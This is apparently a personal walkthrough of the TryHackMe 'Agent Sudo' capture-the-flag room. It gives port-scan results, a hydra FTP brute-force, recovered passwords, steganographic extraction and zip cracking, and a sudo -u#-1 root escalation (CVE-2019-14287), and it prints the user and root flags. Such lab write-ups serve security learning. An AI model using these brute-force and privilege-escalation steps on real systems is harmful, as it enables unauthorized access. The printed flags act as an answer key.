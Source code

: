 <pre>
Machine IP: 10.10.231.220


Enum:
    Open Ports:
        21/tcp open  ftp     vsftpd 3.0.3
        22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 
        80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))


Secret page:
10.10.231.220/agent_C_attention.php    

Lets brute force for ftp chris pwd:
hydra -l chris -P ~/Documents/wordlists/rockyou.txt 10.10.231.220 -t 4 ftp
login: chris   password: crystal

User:chris
Pwd:crystal


Login to ftp 

Ftp open 10.10.231.220

Name (10.10.231.220:root): chris
Password:crystal 


Password some where in photo: cute-alient.jpg:
strings cute-alien.jpg
CDEFGHIJSTUVWXYZcdefghijstuvwxyz

Extract zip from cutie.jpg
binwalk -e cutie.png

Cd _cutie.jph

zip2john 8702.zip | cut -d ':' -f 2 > hashes.txt


john --format=zip hashes.txt
alien            (?)


User flag:
Ssh login
ssh james@10.10.231.220 -p 22
Pwd:hackerrules!
Userflag:b03d975e8c92a7c04146cfa7a5a313c7





Root flag:
sudo -l 
(ALL, !root) /bin/bash
sudo -u#-1 id

And got root

Cat /root/root.txt

To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R



exploits
https://www.exploit-db.com/exploits/47502
https://sysdig.com/blog/detecting-cve-2019-14287/
</pre>
